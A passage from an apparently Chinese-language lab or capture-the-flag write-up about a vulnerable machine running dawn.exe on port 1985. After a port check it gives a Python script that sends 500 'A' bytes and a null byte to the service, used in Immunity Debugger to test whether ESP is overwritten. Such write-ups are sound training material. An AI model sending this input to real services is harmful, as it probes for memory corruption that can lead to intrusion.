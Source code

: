     ![image.png](image%20113.png)
    
5. 查看当前端口
    
    可以发现增加了一个和靶机一模一样的端口，由此判断靶机上也是该服务
    
    ![image.png](image%20114.png)
    

## 测试是否存在缓冲区溢出漏洞

1. 在windows虚拟机里边测试，打开`immunity debuger` 然后运行`dawn.exe`
2. 编写测试文件，记得README里边说过要在最后加上`null`字节
    
    ```c
    cat buffer.py  
    import socket
    
    a = 'A' * 500 + '\x00'
    s = socket.socket()
    s.connect(('192.168.111.154',1985))
    s.send(a.encode('utf-8'))
    s.close()
    ```
    
    假如存在缓冲区溢出漏洞那么应该`ESP`会被`A`字节覆盖
    
3. 运行文件，然后查看`immunity debuger` 
    
